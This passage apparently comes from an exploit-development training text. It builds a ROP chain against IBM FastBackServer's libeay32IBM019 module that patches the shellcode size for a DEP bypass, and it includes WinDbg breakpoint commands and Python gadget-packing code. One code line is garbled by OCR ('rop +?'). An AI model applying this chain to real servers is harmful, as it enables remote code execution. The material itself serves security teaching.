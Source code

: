 To test this, let's restart FastBackServer and attach WinDbg. If we place a breakpoint on the gadget that writes the real shellcode address on the stack (libeay32IBM019+0x1fd8), we can step over the mov instruction and display the updated ROP skeleton on the stack.
	bp libeay32IBM019+0x1fd8
	g
	p
	dd eax-10 L7
	dd 0dbbe41c L8


With the shellcode address correctly patched, our ROP skeleton on the stack is almost complete. Next, we need to overwrite the dummy shellcode size, which in the listing above is represented by 0x42424242.

As with prior ROP chains, we should reuse as many gadgets as possible when we need to repeat similar actions.

The shellcode size does not have to be precise. If it is too large, additional stack content will simply be copied as well. Most 32-bit Metasploit-generated shellcodes are smaller than 500 bytes, so we can use an arbitrary size value of -524 (0xfffffdf4) and then negate it to make it positive.

Listing 53 shows the ROP chain for this step.
# Patching nSize
rop += pack("<L", (dllBase + 0xbc79)) # inc eax ; ret
rop += pack("<L", (dllBase + 0xbc79)) # inc eax ; ret
rop += pack("<L", (dllBase + 0xbc79)) # inc eax ; ret
rop += pack("<L", (dllBase + 0xbc79)) # inc eax ; ret
rop += pack("<L", (dllBase + 0x408dd)) # push eax ; pop esi ; ret 
rop += pack("<L", (dllBase + 0x48d8c)) # pop eax ; ret 
rop +? pack("<L", (0xfffffdf4)) 	# -524
rop += pack("<L", (dllBase + 0x1d8c2)) # neg eax ; ret
rop += pack("<L", (dllBase + 0x8876d)) # mov ecx, eax ; mov eax, esi ; pop esi ; retn 0x0010
rop += pack("<L", (0x42424242)) # junk into esi
rop += pack("<L", (dllBase + 0x1fd8)) # mov [eax], ecx ; ret
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0x42424242)) # junk for ret 0x10

In the above ROP chain we first increase EAX (which points to lpBuffer on the stack) by four to align it with the nSize dummy argument.

Next, we save the updated EAX pointer by copying it to ESI. We do this because with our available gadgets, there's no simple way to obtain the shellcode size in ECX. Instead, we'll use EAX for this arithmetic and then copy the result to ECX.

For the last copy operation, we'll use a gadget that both copies the content of EAX into ECX and restores EAX from ESI. We have already encountered this gadget in the previous step. It contains a return instruction with an offset of 0x10, which we need to account for in the ROP chain (0x10 junk bytes).

Let's test this new step by restarting FastBackServer and attaching WinDbg. Once again, we'll set a breakpoint on the gadget that patches values on the stack. We'll continue execution until the breakpoint is triggered a second time.
	bp libeay32IBM019+0x1fd8
	g
	g
	p
	dd eax-14 L7
